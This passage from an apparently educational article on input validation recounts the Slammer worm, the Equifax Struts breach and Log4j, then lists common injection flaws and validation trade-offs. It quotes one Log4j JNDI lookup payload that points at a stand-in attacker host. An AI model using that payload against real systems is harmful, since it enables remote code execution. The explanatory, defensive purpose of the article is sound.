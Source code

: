 This worm exploited a buffer overflow in Microsoft SQL Server. It sent a single 376-byte UDP packet that caused the server to execute malicious code. The worm spread to 75,000 systems in just 15 minutes, causing internet slowdowns worldwide and shutting down critical infrastructure.

Key vulnerability: SQL Server didn't validate the length of incoming network packets.

**The Equifax Data Breach (2017) - 147 Million Records Stolen**

Attackers exploited a vulnerability in Apache Struts framework that occurred when the framework parsed file upload requests. They sent specially crafted HTTP headers that caused the server to execute commands. The breach exposed Social Security numbers, birth dates, and addresses of nearly half the US population.

Key vulnerability: The framework trusted user-controlled data in HTTP headers without proper validation.

**The Log4j Vulnerability (2021) - The Internet's Worst Week**

A Java logging library contained a feature that would execute code found in log messages. Attackers sent messages like `${jndi:ldap://evil.com/exploit}` to vulnerable applications. When these messages were logged, the library would fetch and execute code from the attacker's server.

Key vulnerability: The logging system processed user input without considering security implications.

**Common Themes in These Disasters:**

1. **Buffer overflows**: Not validating input length
2. **Code injection**: Not sanitizing special characters  
3. **Deserialization**: Not validating object structure
4. **Command injection**: Not escaping shell commands
5. **Path traversal**: Not validating file paths

Every single one could have been prevented by proper input validation.

### The Fundamental Challenge: Signal vs. Noise

Input validation is essentially a classification problem: is this input legitimate or malicious? But it's complicated by several factors:

**1. The Creativity of Attackers**
Attackers have unlimited time and creativity. They'll try every possible variation, encoding, and edge case to bypass your validation.

**2. The Complexity of Modern Data**
Modern applications handle JSON, XML, binary protocols, compressed data, encrypted payloads, and more. Each format introduces new attack vectors.

**3. The Compatibility Problem**
Too strict validation breaks legitimate use cases. Too lenient validation allows attacks through.

**4. The Performance Trade-off**
Comprehensive validation is expensive. In high-performance systems, validation can become a bottleneck.

### Types of Input Validation Attacks

**1. Buffer Overflow Attacks**
